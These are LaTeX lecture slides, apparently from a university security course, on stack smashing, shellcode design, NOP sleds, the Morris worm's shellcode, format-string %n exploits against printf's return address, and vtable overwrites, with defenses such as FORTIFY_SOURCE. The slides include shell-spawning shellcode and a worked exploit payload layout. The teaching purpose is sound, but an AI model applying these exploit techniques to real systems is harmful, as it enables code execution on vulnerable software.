\node[draw=red,thick,anchor=north west,align=left] at (debug.south west) {
exercise: if shellcode at beginning of `first' \\
what is its address going to be? 
};
\end{visibleenv}
\end{tikzpicture}
\end{frame}


% FIXME: ASLR slides

\subsection{still varies without ASLR?}

\begin{frame}[fragile,label=stackLoc3a]{stack location? (take 2a)}
\begin{Verbatim}[fontsize=\fontsize{9}{10}\selectfont]
$ ./stackloc.exe 
0x7fffffffde2c
$ gdb ./stackloc.exe
...
(gdb) run
Starting program: .../stackloc.exe 
0x7fffffffdd9c
[Inferior 1 (process 833005) exited normally]
\end{Verbatim}
\end{frame}


\begin{frame}[fragile,label=stackLoc3b]{stack location? (take 2b)}
\begin{Verbatim}[fontsize=\fontsize{9}{10}\selectfont]
$ ./stackloc.exe 
0x7fffffffde2c
$ ./stackloc.exe 
0x7fffffffde2c
$ ./stackloc.exe test
0x7fffffffde1c
$ ./stackloc.exe test
0x7fffffffde1c
$ $(pwd)/stackloc.exe
0x7fffffffdd8c
$ $(pwd)/stackloc.exe
0x7fffffffdd8c
\end{Verbatim}
\end{frame}


\subsection{how the stack starts on Linux}
\usetikzlibrary{arrows.meta,positioning,matrix}
\begin{frame}{Linux, initial stack}
\vspace{-1em}
\begin{tikzpicture}
\tikzset{
    stackMark/.style={draw=none,font=\it},
    envVar/.style={fill=blue!20},
    envVarP/.style={fill=violet!20},
    arg/.style={fill=green!20},
    argP/.style={fill=yellow!20},
}
\matrix[tight matrix,nodes={text width=7cm,align=center,font=\small}] (theStack){
    |[stackMark]| top of stack at {\tt 0x7ffffffff000} \\
    |[envVar]| \tt "HOME=/home/cr4bd" \\
    |[envVar]| \tt "PATH=/usr/bin:/bin" \\
    |[arg]| \tt "bar" \\
    |[arg]| \tt "foo" \\
    |[arg]| \tt "./test.exe" \\
    |[envVarP]| NULL pointer (end of list) \\
    |[envVarP]| pointer to HOME env. var. \\
    |[envVarP]| pointer to PATH env. var. \\
    |[argP]| NULL pointer (end of list) \\
    |[argP]| pointer to bar \\
    |[argP]| pointer to foo \\
    |[argP]| pointer to ./test.exe \\
    |[stackMark]| actual initial stack pointer \\
};
\node[right=1cm of theStack-1-1] (cmd) {
    {\tt ./test.exe foo bar}
};
\node[draw,envVar,right=1cm of theStack-2-1] (envVarLabel) {
    environment variables
};
\draw[thick] (theStack-2-1.north east) -- (envVarLabel.north west);
\draw[thick] (theStack-3-1.south east) -- (envVarLabel.south west);
\node[draw,arg,right=1cm of theStack-5-1] (argLabel) {
    command-line arguments
};
\draw[thick] (theStack-4-1.north east) -- (argLabel.north west);
\draw[thick] (theStack-6-1.south east) -- (argLabel.south west);
\node[draw,envVarP,right=1cm of theStack-8-1] (envVarPLabel) {
    array of pointers to env. vars.
};
\draw[thick] (theStack-7-1.north east) -- (envVarPLabel.north west);
\draw[thick] (theStack-9-1.south east) -- (envVarPLabel.south west);
\node[draw,argP,right=1cm of theStack-11-1] (argPLabel) {
    array of pointers to args (argv)
};
\draw[thick] (theStack-10-1.north east) -- (argPLabel.north west);
\draw[thick] (theStack-13-1.south east) -- (argPLabel.south west);
\end{tikzpicture}
\end{frame}




\subsubsection{nop sleds}

\begin{frame}[fragile,label=guessEasier]{making guessing easier (1)}
\lstset{language=myasm,style=smaller}
\begin{tikzpicture}
\node[label={[font=\small]north:normal shellcode}] (normal) {
\begin{lstlisting}
xor %eax, %eax
leaq command(%rip), %rbx
/* setup "exec" system call */
...
...
mov $11, %al
syscall

command: .ascii "/bin/sh"
\end{lstlisting}
};

\node[anchor=north west,label={[font=\small]north:easier to ``guess'' shellcode}] at (normal.north east) {
\begin{lstlisting}
nop /* one-byte nop */
nop
nop
nop
nop
nop
nop
xor %eax, %eax
lea command(%rip), %rbx
...
...
command: .ascii "/bin/sh"
\end{lstlisting}
};
\end{tikzpicture}
\end{frame}




\begin{frame}[fragile,label=guessedReturnToStack]{guessed return-to-stack}
\begin{tikzpicture}
% FIXME:
\tikzset{
    stackBox/.style={very thick},
    onStack/.style={thick},
    xscale=1.3,
}
\draw[stackBox] (0, 0) rectangle (10, -6);
\draw[thick,-Latex] (10.25,-5) -- (10.25, -1) node [midway, below, sloped] {increasing addresses};
\node[at={(5, 0.1)},anchor=south] { highest address (stack started here)};
\node[at={(5, -6.1)},anchor=north] { lowest address (stack grows here)};

\draw[onStack] (0, -.25) rectangle (10, -1.25) node[midway,align=center,font=\small] (stackAddr)
     {return address for {\tt vulnerable}: \\ \fontsize{10}{11}\selectfont\tt\bfseries\color{red}70 fd ff ff  ff ff 00 00 (0x7fff ffff fd70)};
\draw[onStack,fill=black!20] (0, -1.25) rectangle (10, -2.25) node[midway,align=center,font=\small] {unused space (20 bytes)};
\draw[onStack,fill=blue!20] (0, -2.25) rectangle (10, -5.25) node[midway,align=center,font=\small] {buffer (100 bytes)};

\draw[onStack] (0, -5.25) rectangle (10, -6) node[midway,align=center,font=\small] {return address for {\tt scanf}};

\draw[onStack,fill=green!20,opacity=0.9] (0, -5.25) rectangle (10, -3) node[midway,align=center,font=\small] {nops (was part of buffer)};
\draw[onStack,fill=red!20,opacity=0.9] (0, -3) rectangle (10, -1.25) node[midway,align=center,font=\small,text=red!50!black] {machine code (was buffer + unused)};

\draw[-Latex,red,ultra thick,dashed] ([yshift=2.5mm]stackAddr.south east) -- ++(.25cm,0cm) |- (0.25, -5);
\draw[-Latex,red,ultra thick,dashed] ([yshift=2.5mm]stackAddr.south east) -- ++(.25cm,0cm) |- (7.4, -3.5);

\end{tikzpicture}
\end{frame}



\subsubsection{finding where return address is}
\againframe<4>{makeAttack}

\begin{frame}[fragile,label=guessEasier2]{making guessing easier (2)}
\begin{itemize}
\item knowing where return address is stored is easier
\item based on buffer length + number of locals + compiler
    \begin{itemize}
    \item small variation between platforms for an application
    \end{itemize}
\item easy to guess --- but can try multiple at once    
\end{itemize}
\end{frame}




\section{stack smashing demo / debugger tutorial?}

\begin{frame}{on using GDB}
    \begin{itemize}
    \item cheat sheet on website in OVER assignment
    \end{itemize}
\end{frame}

\begin{frame}{gdb demo}
\end{frame}

\begin{frame}[fragile,label=trigSeg]{trigger segfault}
\begin{Verbatim}[fontsize=\fontsize{10}{11}\selectfont]
gdb ./a.out
...
(gdb) run <big-input.txt
Starting program: /path/to/a.out 
Program received signal SIGSEGV, Segmentation fault.
0x000000000040053b in vulnerable ()
(gdb) disass
Dump of assembler code for function vulnerable:
   0x0000000000400526 <+0>:     sub    $0x18,%rsp
   0x000000000040052a <+4>:     mov    %rsp,%rdi
   0x000000000040052d <+7>:     mov    $0x0,%eax
   0x0000000000400532 <+12>:    callq  0x400410 <gets@plt>
   0x0000000000400537 <+17>:    add    $0x18,%rsp
=> 0x000000000040053b <+21>:    retq   
End of assembler dump.
(gdb) p $rsp 
$1 = (void *) 0x7fffffffdff8
\end{Verbatim}
\end{frame}

\begin{frame}[fragile,label=trigSegStripped]{trigger segfault --- stripped}
\begin{Verbatim}[fontsize=\fontsize{10}{11}\selectfont]
gdb ./a.out
...
(gdb) run <big-input.txt
Starting program: /path/to/a.out 
Program received signal SIGSEGV, Segmentation fault.
0x000000000040053b in ?? ()
(gdb) disassemble
No function contains program counter for selected frame.
(gdb) x/i $rip
=> 0x40053b:    retq   
(gdb)
\end{Verbatim}
\end{frame}

\begin{frame}{stripping}
\begin{itemize}
\item you can remove debugging information from executables
\item Linux command: \texttt{strip}
\item GCC option \texttt{-s}
\item \texttt{disassemble} can't tell where function starts
\end{itemize}
\end{frame}

\begin{frame}[fragile,label=badDisass]{disassembly attempts}
\begin{Verbatim}[fontsize=\fontsize{10}{11}\selectfont]
gdb ./a.out
...
(gdb) run <big-input.txt
Starting program: /path/to/a.out 
Program received signal SIGSEGV, Segmentation fault.
0x000000000040053b in ?? ()
(gdb) disassemble $rip-5,$rip+1
Dump of assembler code from 0x400536 to 0x40053c:
   0x0000000000400536:  decl   -0x7d(%rax)
   0x0000000000400539:  (bad)  
   0x000000000040053a:  sbb    %al,%bl
End of assembler dump.
(gdb) disassemble $rip-4,$rip+1
Dump of assembler code from 0x400537 to 0x40053c:
   0x0000000000400537:  add    $0x18,%rsp
=> 0x000000000040053b:  retq   
End of assembler dump.
(gdb)
\end{Verbatim}
\end{frame}

\begin{frame}[fragile,label=otherAss]{other notable debugger commands}
\begin{itemize}
\item \texttt{b *0x12345} --- set breakpoint at address
    \begin{itemize}
    \item can set breakpoint on machine code on stack
    \end{itemize}
\item watchpoints --- like breakpoints but trigger on change to/read from value
    \begin{itemize}
    \item ``when is return address overwritten''
    \end{itemize}
\end{itemize}
\end{frame}



\section{example: Morris worm stack smashing}

\begin{frame}[fragile,label=morrisEx]{actual example: Morris worm}
\begin{lstlisting}[language=C,style=smaller]
    /* reconstructed from machine code */
    for(i = 0; i < 536; i++) buf[i] = '\0';
    for(i = 0; i < 400; i++) buf[i] = 1;
    /* actual shellcode */
    memcpy(buf + i,
        ("\335\217/sh\0\335\217/bin\320\032\335\0"
         "\335\0\335Z\335\003\320\034\\274;\344"
         "\371\344\342\241\256\343\350\357"
         "\256\362\351"),
         28);
    /* frame pointer, return val, etc.: */
    *(int*)(&buf[556]) = 0x7fffe9fc;
    *(int*)(&buf[560]) = 0x7fffe8a8;
    *(int*)(&buf[564]) = 0x7fffe8bc;
    ...
    send(to_server, buf, sizeof(buf))
    send(to_server, "\n", 1);
\end{lstlisting}
\end{frame}

\begin{frame}[fragile,label=morrisShell]{Morris shellcode (VAX)}
\begin{lstlisting}[language=myasm,morekeywords=chmk]
pushl   $68732f      // "/sh\0"
pushl   $6e69622f    // "/bin"
movl    sp, r10
pushl   $0
pushl   $0
pushl   r10
pushl   $3
movl    sp,ap
chmk    $3b  // switch to OS ("CHange Mode to Kernel")
\end{lstlisting}
\begin{itemize}
\item write string /bin/sh on the stack (path to ``shell'')
\item make OS request to run specified program
\end{itemize}
\end{frame}




% FIXME: actual demo
\section{restricted characters in shell code}
     %FIXME: add simple example
\usetikzlibrary{positioning}

\begin{frame}{some logistical issues}
    \begin{itemize}
    \item Sure, 1000 {\tt a}'s can be read by {\tt scanf} with {\tt \%s}, but machine code?
    \end{itemize}
\end{frame}

\begin{frame}{scanf accepted characters}
    \begin{itemize}
    \item {\tt \%s} --- ``Matches a sequence of non-white-space characters''
    \item can't use:
        \begin{itemize}
        \item {\tt\textvisiblespace}
        \item {\tt\textbackslash t}
        \item {\tt\textbackslash v} (``vertical tab'')
        \item {\tt\textbackslash r} (``carriage return'')
        \item {\tt\textbackslash n}
        \end{itemize}
    \item not actually that much of a restriction
    \item what about {\tt \textbackslash 0} --- we used a lot of those
    \end{itemize}
\end{frame}

\begin{frame}[fragile,label=virusWhyZeroes]{why did we have zeroes?}
\begin{itemize}
\item previous machine code:
\end{itemize}
{\tt 48 8d 35 {\color{red!70!black}15 00 00 00}}  (lea {\color{red!70!black}string}(\%rip), \%rsi) \\
{\tt b8 {\color{red!70!black}01 00 00 00}} (mov \${\color{red!70!black}1}, \%eax) \\
{\tt bf {\color{red!70!black}25 00 00 00}} (mov \${\color{red!70!black}37}, \%edi) \\
{\tt 0f 05} (syscall) \\
{\tt b8 {\color{red!70!black}e7 00 00 00}} (mov \${\color{red!70!black}231}, \%eax) \\ 
{\tt 31 ff} (xor \%edi, \%edi) \\
{\tt 0f 05} (syscall)
\begin{itemize}
\item problem: happened to be encoding of constants
\end{itemize}
\end{frame}

\begin{frame}[fragile,label=virusNoZeroes]{shell code without 0s}
\lstset{
    language=myasm,
    style=smaller,
    moredelim={**[is][\btHL<2|handout:0>]{~2~}{~end~}},
    moredelim={**[is][\btHL<3|handout:0>]{~3~}{~end~}},
}
\begin{tikzpicture}
\node (code) {
\begin{lstlisting}
shellcode:
    ~2~jmp afterString~end~
string:
    .ascii "You have been..."
afterString:
    ~3~leaq string(%rip), %rsi~end~
    xor %eax, %eax
    xor %edi, %edi
    ~2~movb $1, %al~end~
    ~2~movb $37, %dl~end~
    syscall
    ~2~movb $231, %al~end~
    xor %edi, %edi
    syscall
\end{lstlisting}
};
\begin{visibleenv}<2>
\node[draw=red,ultra thick,right=.5cm of code,align=left]{
    one-byte constants/offsets \\
    so no leading zero bytes \\
    {\tt jmp afterString} is {\tt eb 25} \\
    \hspace{.5cm} (jump forward {\tt 0x25} bytes) \\
    {\tt movb \$1, \%al} is {\tt b0 01}
};
\end{visibleenv}
\begin{visibleenv}<3>
\node[draw=red,ultra thick,right=.5cm of code,align=left]{
    four-byte offset, but negative \\
    {\tt d4 ff ff ff} (-44)
};
\end{visibleenv}
\end{tikzpicture}
\end{frame}

\begin{frame}[fragile,label=virusNoZeroesFull]{shell code without 0s}
\begin{Verbatim}[fontsize=\fontsize{9}{10}\selectfont]
0000000000000000 <shellcode>:
   0:   eb 25                   jmp    27 <afterString>

0000000000000002 <string>:
    ...

0000000000000027 <afterString>:
  27:   48 8d 35 d4 ff ff ff    lea    -0x2c(%rip),%rsi        # 2 <string>
  2e:   31 c0                   xor    %eax,%eax
  30:   31 ff                   xor    %edi,%edi
  32:   b0 01                   mov    $0x1,%al
  34:   b2 25                   mov    $0x25,%dl
  36:   0f 05                   syscall 
  38:   b0 e7                   mov    $0xe7,%al
  3a:   31 ff                   xor    %edi,%edi
  3c:   0f 05                   syscall 
\end{Verbatim}
\end{frame}

\begin{frame}{what about other funny characters?}
    \begin{itemize}
    \item suppose we can't use ASCII newlines in machine code
    \item what if we need to move 0xA (= newline character) into a register
    \vspace{.5cm}
    \item cannot do \texttt{movb \$10, \%al} --- contains 0x0a byte
    \item can do: \texttt{xor \%eax, \%eax; inc \%eax; inc \%eax, ...}
    \vspace{.5cm}
    \item similar patterns for lots of operations
    \end{itemize}
\end{frame}

\begin{frame}{x86 flexibility}
    \begin{itemize}
    \item x86 opcodes that are normal ASCII chars are pretty flexibile
    \item {\tt 0}--{\tt 5}
        \begin{itemize}
        \item various forms of {\tt xor}
        \end{itemize}
    \item {\tt @}, {\tt A}--{\tt Z}, {\tt [}, {\tt \textbackslash}, {\tt ]}, {\tt \textasciicircum}, {\tt \_}
        \begin{itemize}
        \item {\tt inc}, {\tt dec}, {\tt push}, {\tt pop} with first eight 32-bit registers
        \end{itemize}
    \item {\tt h} --- push one-byte constant
    \item {\tt p}--{\tt z} --- conditional jumps to 1-byte offset
    \vspace{.5cm}
    \item<2> note: can \myemph{write machine code, jump to it}
    \end{itemize}
\end{frame}

\begin{frame}{actual limitation}
    \begin{itemize}
    \item overwriting with address? 
        \begin{itemize}
        \item probably can't make sure that's all normal ASCII chars
        \end{itemize}
    \item (but could leave most significant bits of existing address unchanged)
    \end{itemize}
\end{frame}


   

\section{restricted characters in pointers}
\begin{frame}{restricted characters in pointers?}
    \begin{itemize}
    \item recall: put pointer to buffer in stack pointer
    \item example buffer pointer: \texttt{0x7fffffffde2c}
    \item as bytes (little endian, loweset address first): \\
         \texttt{2C DE FF FF FF 7F 00 00}
    \vspace{.5cm}
    \item what if \texttt{00} bytes aren't allowed in input?
        \begin{itemize}
        \item no problem: prior value of return address probably has 0s already
        \end{itemize}
    \item what if \texttt{2C} or \texttt{DE} not allowed in input?
        \begin{itemize}
        \item can probably find other location on stack writen by overflow
        \item NB: could place code after overwritten return address
        \end{itemize}
    \item \myemph<2>{what if \texttt{7F} or \texttt{FF} not allowed in input?}
    \end{itemize}
\end{frame}

\begin{frame}[fragile,label=altShellcode]{alternate places for shellcode?}
\begin{lstlisting}
...
char current_student[1000];
...
int GetAndCompareAnswer(char *question,
                        char *expected_answer) {
    char answer[1000];
    // "1.2 seconds"
    scanf("%[a-zA-Z0-9. ]", answer);
    return CompareStrings(answer, expected_answer);
}
\end{lstlisting}
\begin{itemize}
\item suppose \texttt{current\_student} at \texttt{0x404580}
\item then \texttt{current\_student[180]} at \texttt{0x404640}
    \begin{itemize}
    \item bytes 40 (ASCII space) 46 (ASCII \texttt{.} (period)) 40 (ASCII space)
    \item (and hope return address already has zeroes)
    \end{itemize}
\end{itemize}
\end{frame}


\section{review: tricky parts of stack smashing}

\begin{frame}<1>[label=trickySS]{stack smashing: the tricky parts}
    \begin{itemize}
    \item \myemph<2>{construct machine code that works in any executable}
        \begin{itemize}
        \item same tricks as writing relocatable virus code
        \end{itemize}
    \item \myemph<3>{construct machine code that's valid input}
        \begin{itemize}
        \item machine code usually flexible enough
        \end{itemize}
    \item \myemph<4>{finding location of return address}
        \begin{itemize}
        \item fixed offset from buffer
        \end{itemize}
    \item \myemph<5>{finding location of inserted machine code}
    \end{itemize}
\end{frame}



\section{format string exploit}

\subsection{format strings and the stack}

\begin{frame}[fragile,label=formatStringIntro]{format string exploits}
\lstset{language=C}
\begin{lstlisting}
printf("The command you entered ");
printf(command);
printf("was not recognized.\n");
\end{lstlisting}
    \begin{itemize}
        \item<2> what if \texttt{command} is {\tt \%s}?
    \end{itemize}
\end{frame}

% FIXME: demo based on this looking at registers in GDB

\begin{frame}[fragile,label=viewingTheStack]{viewing the stack}
\lstset{
    language={},
    style=smaller,
    moredelim={**[is][\color{blue!70!black}]{~in~}{~end~}},
    moredelim={**[is][\btHL<2|handout:0>]{~2~}{~end~}},
    moredelim={**[is][\btHL<3|handout:0>]{~3~}{~end~}},
    moredelim={**[is][\btHL<4|handout:0>]{~4~}{~end~}},
    moredelim={**[is][\btHL<5|handout:0>]{~5~}{~end~}},
}
\vspace{-.25cm}
\begin{lstlisting}
$ ~in~cat test-format.c~end~
#include <stdio.h>

int main(void) {
    char buffer[100];
    while(fgets(buffer, sizeof buffer, stdin)) {
        printf(buffer);
    }
}
$ ~in~./test-format.exe~end~
~in~%016lx %016lx %016lx %016lx %016lx %016lx %016lx %016lx~end~
~3~00007fb54d0c6790~end~ ~4~786c363130252078~end~ ~4~0000000000ac6048~end~ ~4~3631302520786c36~end~
~4~3631302500000000~end~ ~5~6c3631302520786c~end~ 786c363130252078 ~2~20786c36313025~end~20
\end{lstlisting}
\begin{tikzpicture}[overlay,remember picture]
    \tikzset{every node/.style={draw,thick,fill=white}}
    \begin{visibleenv}<2>
        \node at (current page.center) {
            {\tt 25 30 31 36 6c 78 20} is ASCII for {\tt \%016lx\textvisiblespace}
        };
    \end{visibleenv}
    \begin{visibleenv}<3>
        \node at (current page.center) {
            second argument to {\tt printf}: \%rsi
        };
    \end{visibleenv}
    \begin{visibleenv}<4>
        \node at (current page.center) {
            third through fifth argument to {\tt printf}: \%rdx, \%rcx, \%r8, \%r9
        };
    \end{visibleenv}
    \begin{visibleenv}<4>
        \node at (current page.center) {
            third through fifth argument to {\tt printf}: \%rdx, \%rcx, \%r8, \%r9
        };
    \end{visibleenv}
    \begin{visibleenv}<5>
        \node at (current page.center) {
            16 bytes of stack after return address
        };
    \end{visibleenv}
\end{tikzpicture}
\end{frame}



\subsection{printf writes!}

\begin{frame}{printf manpage}
    \begin{itemize}
        \item For {\tt \%n}:
        \begin{itemize}
            \item The  number  of  characters  written so far is \myemph{stored into the integer pointed to by the
                corresponding argument}.  That argument shall be an {\tt int *}, or variant whose size  matches
              the  (optionally)  supplied  integer  length  modifier. 
        \end{itemize}
    \item<2> {\tt \%hn} --- expect {\tt short *} instead of {\tt int *}
    \end{itemize}
\end{frame}



\subsection{vulnerable code}

\begin{frame}[fragile,label=formatSetup]{format string exploit: setup}
\lstset{
    language=C,
    style=small,
}
\begin{lstlisting}
#include <stdlib.h>
#include <stdio.h>

/* goal: get this function to run */
int exploited() {
    printf("Got here!\n");
    exit(0);
}

int main(void) {
    char buffer[100];
    while (fgets(buffer, sizeof buffer, stdin)) {
        printf(buffer);
    }
}
\end{lstlisting}
\end{frame}



\subsection{exploit with RA}
\usetikzlibrary{matrix}
\begin{frame}{format string exploit}
    \begin{itemize}
    \item can use \texttt{\%n} to write \textbf{arbitrary values to arbitrary memory addresses}
    \item later: we'll talk about a bunch of ways of use this to execute code
    \item for now: overwrite return address from printf
    \vspace{.5cm}
    \item using debugger: I determine printf's return address is on stack at \texttt{0x7fffffffecf8}
    \item want to write address of exploited \texttt{0x401156}
    \end{itemize}
\end{frame}

\begin{frame}[fragile,label=exploitPatternSimple]{stack layout}
\begin{tikzpicture}
\matrix[tight matrix,nodes={style={text width=7cm,minimum height=.6cm}}] {
    printf return address \\
    printf argument 7/buffer start \& byte 0-7 of buffer \\
    printf argument 8 \& byte 8-15 of buffer \\
    printf argument 9 \& byte 16-23 of buffer \\
    printf argument 10 \& byte 24-31 of buffer \\
    printf argument 11 \& byte 32-39 of buffer \\
    \ldots \& \ldots \\
};
\end{tikzpicture}
\begin{itemize}
\item<2-> strategy: fit format string within bytes 0-31 of buffer
\item<2-> \ldots and use bytes 32-39 to hold pointer to return address
\item<2-> \ldots and have first 9 items in format string write \texttt{0x401156} bytes
\item<2-> \ldots and use \%n as 10th item (pointer to overwrite target)
\vspace{.5cm}
\item<3-> (if that's not enough space: use a later argument)
\end{itemize}
\end{frame}

\begin{frame}[fragile,label=formatExploit]{exploit}
\begin{tikzpicture}
\matrix[tight matrix,nodes={style={text width=7cm,minimum height=.6cm,font=\small}}] (stack) {
    printf return address \\
    \myemph<4>{printf argument 7}/buffer start \& \tt "\myemph<2>{\%.419873}" \\
    \myemph<4>{printf argument 8} \& \tt "\myemph<2>{4u}\myemph<3>{\%c\%c\%c}" \\
    \myemph<4>{printf argument 9} \& \tt "\myemph<3>{\%c}\myemph<4>{\%c\%c\%c}" \\
    \myemph<4>{printf argument 10} \& \tt "\myemph<4>{\%c}\myemph<5>{\%ln}\myemph<6>{...}" \\
    \myemph<5>{printf argument 11} \& target \tt 0x7fffffffecf8 \\
    \ldots \& \ldots \\
};
\tikzset{
    note/.style={draw=red,very thick,anchor=north,align=left,at={([yshift=-.5cm]stack.south)}},
}
\begin{visibleenv}<2>
\node[note] {
    write unsigned number with 4198734 digits of percision \\
    result: \%rsi (printf arg 2) output \\
    padded to 4198734 digits with zeroes
};
\end{visibleenv}
\begin{visibleenv}<3>
\node[note] {
    one char (byte) based on printf args 3, 4, 5, 6 \\
    (\%rdx, \%rcx, \%r8, \%r9) \\
};
\end{visibleenv}
\begin{visibleenv}<4>
\node[note] {
    one char (byte) based on printf args 7, 8, 9, 10 \\
    (stack locations)
};
\end{visibleenv}
\begin{visibleenv}<5>
\node[note] {
    store number of bytes printed into printf arg 11 \\
    \texttt{l} indicates that it a long (not int) \\
    total bytes = 4198734 (\%u) + 8 (\%c $\times$ 8) = 0x401156
};
\end{visibleenv}
\begin{visibleenv}<6>
\node[note] {
    extra data just to ensure the target address \\
    is positioned correctly
};
\end{visibleenv}
\end{tikzpicture}
\end{frame}


\subsection{splitting the write}

\usetikzlibrary{matrix}

\begin{frame}{format string exploit}
    \begin{itemize}
    \item what if number is too big? write in pieces, example:
        \begin{itemize}
        \item 0x0040 (byte 2-3, first written), 0x1156 (byte 0-1, second written)
        \end{itemize}
    \end{itemize}
\begin{tikzpicture}
\matrix[tight matrix,nodes={style={text width=7cm,minimum height=.6cm,font=\small}}] (stack) {
    printf return address \\
    \myemph<4>{printf argument 7}/buffer start \& \tt "\%c\%c\%c\%c" \\
    \myemph<4>{printf argument 8} \& \tt "\%c\myemph<4>{\%c\%c\%c}" \\
    \myemph<4>{printf argument 9} \& \tt "\myemph<4>{\%c\%.55u}\myemph<5>{\%}" \\
    \myemph<4>{printf argument 10} \& \tt "\myemph<5>{hn}\myemph<6>{\%.4374}" \\
    \myemph<4>{printf argument 11} \& \tt "\myemph<6>{u}\myemph<7>{\%hn}...." \\
    \myemph<5>{printf argument 12} \& target byte 2 \tt 0x7fffffffecfa \\
    \myemph<6>{printf argument 13} \& for \%u \\
    \myemph<5>{printf argument 14} \& target byte 0 \tt 0x7fffffffecf8 \\
    \ldots \& \ldots \\
};
\end{tikzpicture}
\end{frame}


\subsection{format exploit defense: FORTIFY\_SOURCE}
\begin{frame}[fragile,label=fortify]{stopping format string exploits}
    \begin{itemize}
    \item modern Linux: disables format string exploits by default:
    \item set C library \#define \texttt{\_FORITFY\_SOURCE} to 2 to\ldots
    \vspace{.5cm}
    \item makes printf disallow \%n if format string in writable memory
    \item (also adds some bounds checking to certain C library functions)
    \end{itemize}
\end{frame}


\section{beyond stack smashing}
\begin{frame}{beyond return addresses}
    \begin{itemize}
    \item format string let us overwrite \myemph{anything!}
    \item my example: showed return address
    \item but return address is tricky to locate exactly
    \item but there are \myemph{easier options!}
    \end{itemize}
\end{frame}


\section{arbitrary writes}

\begin{frame}<1-3>[label=arbWrite]{arbitrary memory write}
    \begin{itemize}
    \item bunch of scenarios that lead to \myemph{single arbitrary memory write}
        \begin{itemize}
        \item format exploits are one, but we'll find more!!
        \end{itemize}
    \item typical result: arbitrary code execution
    \item how?
    \vspace{.5cm}
    \item<2-> \myemph<3>{overwrite existing machine code (insert jump?)}
        \begin{itemize}
        \item problem: usually not writable
        \end{itemize}
    \item<2-> \myemph<4>{overwrite return address directly}
        \begin{itemize}
        \item observation: don't care about stack canaries --- skip them
        \end{itemize}
    \item<2-> \myemph<5>{overwrite other function pointer?}
    \item<2-> \myemph<6>{overwrite another data pointer --- copy more?}
    \end{itemize}
\end{frame}


\section{write targets, continued}

\subsection{C++ inheritence}
\usetikzlibrary{arrows.meta,matrix}

\begin{frame}[fragile,label=CPPVirt]{C++ inheritence}
\lstset{
    language=C++,style=smaller,
}
    \vspace{-.5cm}
\begin{lstlisting}
class InputStream {
public:
    virtual int get() = 0;
    // Java: abstract int get();
    ...
};
class SeekableInputStream : public InputStream {
public:
    virtual void seek(int offset) = 0;
    virtual int tell() = 0;
};
class FileInputStream : public InputStream {
public:
    int get();
    void seek(int offset);
    int tell();
    ...
};
\end{lstlisting}
\end{frame}

\begin{frame}<1>[label=inheritMemLay]{C++ inheritence: memory layout}
\begin{tikzpicture}
    \tikzset{
        vt/.style={fill=blue!30},
    }
    \matrix[tight matrix,nodes={text width=3.8cm,text depth=.1ex,font=\small\tt},
            label={north:InputStream},anchor=north west] (inputStream)  at (0, 0) {
        |[vt]| vtable pointer \\
    };
    \matrix[tight matrix,nodes={text width=3.8cm,text depth=.1ex,font=\small\tt},
            label={north:SeekableInputStream},anchor=north west] (seekableStream) at (4.5, 0) {
        |[vt]| vtable pointer \\
    };
    \matrix[tight matrix,nodes={text width=6cm,text depth=.1ex,font=\small\tt},
            label={north:FileInputStream},anchor=north west] (fileStream) at (9, 0) {
        |[vt]| vtable pointer \\
        file\_pointer \\
    };
    \matrix[tight matrix,nodes={text width=3.8cm,text depth=.1ex,font=\small\tt},anchor=north west] (isVT) at (0, -2) {
        \tt slot for get\\
    };
    \matrix[tight matrix,nodes={text width=3.8cm,text depth=.1ex,font=\small\tt},anchor=north west] (seekVT) at (4.5, -2){
        \tt slot for get \\
        \tt slot for seek \\
        \tt slot for tell \\
    };
    \matrix[tight matrix,nodes={text width=6cm,text depth=.1ex,font=\small\tt},anchor=north west] (fileVT) at (9, -2){
        FileInputStream::get \\
        FileinputStream::seek \\
        FileInputStream::tell \\
    };
    \draw[thick,-Latex] (inputStream-1-1.east) -- ++(.35cm,0cm) |- (isVT-1-1.east);
    \draw[thick,-Latex] (seekableStream-1-1.east) -- ++(.35cm,0cm) |- (seekVT-1-1.east);
    \draw[thick,-Latex] (fileStream-1-1.east) -- ++(.35cm,0cm) |- (fileVT-1-1.east);
\end{tikzpicture}
\end{frame}

\begin{frame}[fragile,label=CPPImpl]{C++ implementation (pseudo-code)}
\lstset{
    language=C,style=smaller,
}
\vspace{-.5cm}
\begin{lstlisting}
struct InputStream_vtable {
    int (*get)(InputStream* this);
};

struct InputStream {
    InputStream_vtable *vtable;
};

...

    InputStream *s = ...;
    int c = (s->vtable->get)(s);
\end{lstlisting}
\end{frame}

\begin{frame}[fragile,label=CPPImplB]{C++ implementation (pseudo-code)}
\lstset{
    language=C,style=smaller,
}
\vspace{-.5cm}
\begin{lstlisting}
struct SeekableInputStream_vtable {
    struct InputStream_vtable as_InputStream;
    void (*seek)(SeekableInputStream* this, int offset);
    int (*tell)(SeekableInputStream* this);
};

struct FileInputStream {
    SeekableInputStream_vtable *vtable;
    FILE *file_pointer;
};

...

    FileInputStream file_in = { the_FileInputStream_vtable,  ... };
    InputStream *s = (InputStream*) &file_in;
\end{lstlisting}
\end{frame}

\begin{frame}[fragile,label=CPPImplC]{C++ implementation (pseudo-code)}
\lstset{
    language=C,style=smaller,
}
\vspace{-.5cm}
\begin{lstlisting}
SeekableInputStream_vtable the_FileInputStream_vtable = {
    &FileInputStream_get,
    &FileInputStream_seek,
    &FileInputStream_tell,
};

...

    FileInputStream file_in = { the_FileInputStream_vtable,  ... };
    InputStream *s = (InputStream*) &file_in;
\end{lstlisting}
\end{frame}




\subsection{options for attacking function pointer tables}
    % FIXME: find another function pointer in memory

\begin{frame}{attacking function pointer tables}
% FIXME: picture
\begin{itemize}
\item option 1: overwrite table entry directly  
    \begin{itemize}
    \item required/easy for Global Offset Table --- fixed location
    \item usually not possible for VTables --- read-only memory
    \end{itemize}
\item option 2: create table in buffer (big list of pointers to shellcode), point to buffer
    \begin{itemize}
    \item useful when table pointer next to buffer
    \item (e.g. C++ object on stack next to buffer)
    \end{itemize}
\item option 3: find suitable pointer elsewhere
    \begin{itemize}
    \item e.g. point to wrong part of vtable to run different function
    \end{itemize}
\end{itemize}
\end{frame}




\subsection{vtable overwrite exercise}
\usetikzlibrary{arrows.meta,matrix}
\begin{frame}[fragile,label=vtExer]{exercise}
\vspace{-.25cm}
\begin{tikzpicture}
    \tikzset{
        vt/.style={fill=blue!30},
    }
    \matrix[tight matrix,nodes={text width=3.8cm,text depth=.1ex,font=\small\tt},
            label={north:objArray},anchor=north west] (vulnClass)  at (0, 0) {
        |[vt]| vtable pointer \\
        |[minimum height=1cm]| buffer\\
        |[vt]| vtable pointer \\
        |[minimum height=1cm]| \ldots \\
    };
